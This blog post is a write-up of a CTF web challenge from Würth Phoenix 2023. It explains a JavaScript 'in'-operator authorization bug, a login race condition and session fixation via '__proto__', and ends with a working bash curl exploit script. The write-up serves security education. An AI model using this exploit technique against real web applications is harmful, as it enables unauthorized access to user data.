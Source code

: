 ```yaml
---
layout: default
title: "Würth Phoenix CTF 2023 writeup of User Management"
title_left: WPCTF2023
fn_keys:
  - key: F3
    text: Exit
    href: "/blog"
  - key: F11
    text: RSS
    href: "/feed.xml"
  - key: F12
    text: Print
    href: "#"
    onclick: "window.print(); return false"
description: Writeup of the Würth Phoenix CTF challenge 2023 challenge User Management
---
```


# Würth Phoenix 2023 Writeup

The 2023 edition of the Würth Phoenix challenge went great for our team Pearàk, winning the 
competition.

Among the multiple challenges that we solved, one we enjoyed one in particular, and we also
were the only one to solve it.

So here is the writeup.

## User Management

The challenge presents with a login page where you can register. From a first analysis of the
code (that fortunately we had access to) we could see that there were 3 users:

```js
const insert = 'INSERT INTO user (name, surname, password, enabled) VALUES (?,?,?,?)';
db.run(insert, ["admin","admin",crypto.randomBytes(20).toString('hex'),0])
db.run(insert, ["anyone","anyone","anyone",1])
db.run(insert, ["flag",FLAG,crypto.randomBytes(20).toString('hex'), 0])
```

As it can be seen, the only account that we can use is "anyone" with password "anyone".
The other accounts we can not use it for two reasons, first they are not enabled, and 
second we don't know the password (nobody does, anyway). 

It's also clear that the flag is in the surname field of the "flag" user, that however
we can not use it.

From an analysis of the code we also see that there is no possibility to do SQL injection.
We need to invent something else!

We also see that there is an user privilege mechanism:
```js
exports.PERMISSION = {
    ADMIN: 0,
    GUEST: 1,
}

db.run(`CREATE TABLE permissions (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    name text UNIQUE,
    permission integer, 
    CONSTRAINT name UNIQUE (name)
  )`,
  (err) => {
      if (!err) {
          // Table just created, creating some rows
          const insert = 'INSERT INTO permissions (name, permission) VALUES (?,?)';
          db.run(insert, ["admin",0])
          // db.run(insert, ["anyone",1])
          db.run(insert, ["flag",1])
      }
  }); 
```

As it can be seen, the "flag" user has no permission at all (we will see why this is important later!).

## First intuition

We see that we can call this API to retrieve the information of all the users:

```js
app.get("/api/users",async (req, res) =>{
    if(
        req.session.user && session_manager.PERMISSION.ADMIN in req.session.user.permission
    ){  // check if users has session_manager.PERMISSION.ADMIN
        db.all("SELECT id, name, surname, permission, '***' as password FROM user", (err, users)=>{
            res.json({
                success: true,
                users: users
            });
        });
    }else{
        res.status(401).json({
            success: false,
            error: "Unauthorized"
        });
    }    
})
```

We stared at this code for too much time without seeing the issue. Can you spot it?

Let me hint something to you, if you did uncomment the insert at the previous chapter of the 
permission this code would have validated the user as an admin! How you say? The code did 
only tell you that the user was a guest.

Well... what does the `in` operator to in JavaScript? Not what you expect! It checks that the 
specified **key** is in the array. In this case the key `0`. Thus, this check will pass not only
for admin users, but for users whom the `permission` array is not empty!

## Second vulnerability

Well, but we can't do nothing. Because, we seen that the `permission` array of the user was empty, 
at the previous chapter. Are you sure about that? Let's see how an user is created:

```js
app.post('/login', async(req, res) => {
    db.all("SELECT * FROM user WHERE name=? AND enabled=1", [req.body.username], (err, users)=>{
        // omitted password check. No vulnerability is there! 

        req.session.user = {
            name: user.name,
            surname: user.surname,
            permission: [session_manager.PERMISSION.GUEST], // default no permission
            id: user.id,
        }

        // HERE!!!

        db.all("SELECT * FROM permissions WHERE name=?", [req.body.username], (err, permissions)=>{
            req.session.user.permission = permissions.map((p)=>p.permission) || [];
        })

        res.json({
            success: true
        });
    });
});
```

As you can see, first the session of the user is first created with a `permission` array initialized
with a guest element. For the broken check at the previous chapter, we can say for sure that if we 
would have called the API `/api/users` in that particular point of the flow of execution, the API 
would have returned US the user list!

So... basically it's a race condition! 

## Exploit

So we could have a thread that continues logging in the `anyone` user, and another thread continuing
calling the `/api/users` API, and we would have a moment where the call would return, since the second 
SQL query does indeed block the request handler and may unlock the handling of the request of the 
other call. 

We have only one last issue to address. The session generation! How can we make sure that we use always
the same session token? Well, simple enough. If you see the session id is not reset when the user logs in,
indeed the session ID of the request is used if provided in the cookie. 

We just have to make sure that the two threads use the same session ID to make this work. Since the 
session ID is just a key in a JS object, we can just use a property that for sure is present in an 
object (like `__proto__`). I initially seen it as a potential third vulnerability, but now that I 
think of it it was not strictly necessary, we could have just have invoked `/login` once, got the 
session token and then used it for the two threads. 

Here is an ugly crafted bash script to exploit it (yes, it's a terrible hack, but it works!):

```bash
# login request thread
(while true; do curl http://$1/login -H 'Content-Type: application/json' -d '{ "username": "anyone", "password": "anyone" }' -H 'Cookie: session_id=__proto__; Path=/' 2>/dev/null >/dev/null; done) &

# api users thread
while true; do
  curl http://$1/api/users -H 'Cookie: session_id=__proto__; Path=/' 2>/dev/null | grep flag
done;
```

In less than a second the race condition is triggered and we got the flag!

## Conclusion

The Würth Phoenix CTF was a very fun event, and we want to thank al the organizers for the 
great time and prizes we had!

